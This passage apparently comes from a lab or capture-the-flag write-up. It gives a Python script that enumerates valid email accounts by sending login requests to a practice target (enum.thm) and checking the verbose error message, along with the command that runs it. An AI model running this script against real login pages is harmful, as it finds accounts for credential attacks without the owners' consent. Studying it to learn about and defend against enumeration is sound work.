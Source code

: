```python
    data = {
        'username': email,
        'password': 'password',
        'function': 'login'
    }
    try:
        r = session.post(url, headers=headers, data=data, timeout=10)
        return r.json()
    except Exception as e:
        print(f"[!] Request failed for {email}: {e}")
        return None

def enumerate_emails(email_file, url):
    valid_emails = []
    invalid_error = "Email does not exist"

    session = requests.Session()
    with open(email_file, 'r') as f:
        for line in f:
            email = line.strip()
            if not email:
                continue
            resp = check_email(session, url, email)
            if not resp:
                continue
            if resp.get('status') == 'error' and invalid_error in resp.get('message', ''):
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)
    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 script.py <email_list_file> <target_url>")
        print("Example: python3 script.py usernames_gmail.com.txt 'http://enum.thm/labs/verbose_login/functions.php'")
        sys.exit(1)

    email_file = sys.argv[1]
    target_url = sys.argv[2]
    found = enumerate_emails(email_file, target_url)
    print("\nValid emails found:")
    for e in found:
        print(e)
```

**Run**

```bash
python3 script.py usernames_gmail.com.txt 'http://enum.thm/labs/verbose_login/functions.php'
```

---